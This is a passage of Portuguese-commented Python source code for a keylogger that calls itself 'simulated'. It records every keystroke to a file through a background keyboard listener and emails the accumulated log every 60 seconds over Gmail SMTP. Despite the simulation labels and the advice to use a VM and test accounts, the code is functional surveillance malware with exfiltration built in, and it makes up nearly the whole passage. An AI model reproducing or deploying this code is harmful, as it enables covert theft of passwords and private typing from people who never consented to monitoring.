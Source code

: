     # Salva no arquivo a cada tecla (para simulação)
    with open(log_file, 'a') as f:
        f.write(log[-1])  # Escreve o último caractere

def send_email():
    """Envia o log por e-mail e limpa."""
    global log
    if log:
        # Configurações de e-mail (USE CONTAS DE TESTE!)
        sender = 'seuemail@teste.com'
        receiver = 'destino@teste.com'
        password = 'sua_senha_app'  # Use app password para Gmail
        smtp_server = 'smtp.gmail.com'
        port = 587

        msg = MIMEText(log)
        msg['Subject'] = 'Log de Teclas Simulado'
        msg['From'] = sender
        msg['To'] = receiver

        try:
            with smtplib.SMTP(smtp_server, port) as server:
                server.starttls()
                server.login(sender, password)
                server.send_message(msg)
            print('E-mail enviado (simulado).')
        except Exception as e:
            print(f'Erro ao enviar e-mail: {e}')

        log = ""  # Limpa o log após envio

    # Timer para próximo envio (60 segundos)
    threading.Timer(60, send_email).start()

def start_keylogger():
    """Inicia o listener em background."""
    listener = keyboard.Listener(on_press=on_press)
    listener.start()
    send_email()  # Inicia o timer

if __name__ == '__main__':
    print('Keylogger simulado iniciado. Pressione teclas para testar. Pare com Ctrl+C.')
    start_keylogger()
    # Mantém o script rodando
    try:
        while True:
            pass
    except KeyboardInterrupt:
        print('Keylogger parado.')

--

Arquivos Adicionais

Crie a pasta test_files manualmente e adicione .txt como no script.
Para testar, rode os scripts em uma VM ou pasta isolada.
